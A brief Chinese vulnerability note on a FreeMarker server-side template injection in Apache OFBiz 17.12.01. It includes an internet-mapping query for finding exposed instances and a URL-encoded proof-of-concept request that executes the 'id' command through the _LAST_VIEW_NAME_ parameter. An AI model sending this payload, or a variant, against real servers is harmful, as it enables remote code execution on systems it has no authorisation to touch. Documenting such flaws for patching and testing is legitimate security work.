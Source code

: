 # Apache OfBiz 服务器端模板注入 SSTI

## 漏洞描述

Apache OfBiz 17.12.01 容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-067-apache_ofbiz

## 漏洞影响

```
Apache OfBiz 17.12.01
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

服务器端模板注入 renderLookupField

从不可信数据流 request.getParameter("`_LAST_VIEW_NAME_`") 给一个 FreeMarker 的宏调用定义。具有特权以渲染任何包含查找字段的页面的攻击者将能够通过发送有效载荷来执行任意系统命令。

poc：

```
https://localhost:8443/ordermgr/control/FindQuote?_LAST_VIEW_NAME_=%22%2F%3E%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%3CFOO
```
